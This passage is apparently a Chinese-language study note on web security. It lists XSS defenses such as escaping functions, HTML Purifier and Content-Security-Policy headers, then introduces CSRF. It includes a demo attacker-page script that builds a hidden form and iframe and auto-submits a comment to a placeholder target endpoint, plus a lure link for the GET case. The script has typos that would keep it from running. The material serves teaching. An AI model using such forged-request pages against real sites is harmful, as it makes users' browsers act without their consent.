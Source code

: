 - 转义 - 使用内置函数转义
    - strip_tags($content) 移除 html 标签，只留下内容
    - htmlspeicalchars($content, ENT_QUOTES) 只处理特殊字符，由于默认不转义 ' ，需要加上参数2 
- 白名单
    - 自带的 DOMDocument 类
- 第三方库
    - HTML Purifire
- CSP
    - header("Content-Security-Policy: script-src 'self'");

## 问题：

- 直播间不同接口转义的不一样吗？
- 我们的聊天转义了哪些？做了什么处理
- 前端处理了没？都是后端处理？

- Content-Security-Policy: frame-ancestors self *.56.com *.baidu.com

# 三、CSRF 攻击

> Cross Site Request Forgy 跨站请求伪造

白话理解：不同于 XSS 中的本网站运行非本网站的脚本，在这里是指其他的网站脚本对本网站产生了影响。其他网站在用户不知情的情况下，对本网站发出了某些请求。

## 3.1 引入

案例描述：
- 正常操作
    - 未登录情况下，匿名评论
    - 登录后保存了用户 cookie ，再次评论
- 异常操作
    - 用户打开一个第三方网站，该网站可以直接替用户添加评论

攻击实现：
- 第三方网站的脚本
```
// 如果是 post 请求
<script>
    // 创建 frome 指向目标网站接口
    // 当表单指定 target 是一个 iframe 时，提交和跳转就在 iframe 操作，当前页面不跳转
    document.write(`
        <form 
            name="commentForm" 
            target="csrf"
            method="post"
            action="http://xxx/post/addComment"
        >
            <input name="postId" type="hidden" value="13">
            <textarea name="content">来自CSRF!</textarea>
        </form>
    `);

    var iframe = document.creatElement('iframe');
    iframe.name="csrf";
    iframe.style.display="none";
    document.body.appendChild(iframe);

    setTimeout(function(){
        document.querySelector('[name=contentForm]').submit();
    }, 1000);
</script>

// 如果是 get 请求，更简单
<a href="攻击链接">屠龙宝刀，点击就送</a>
```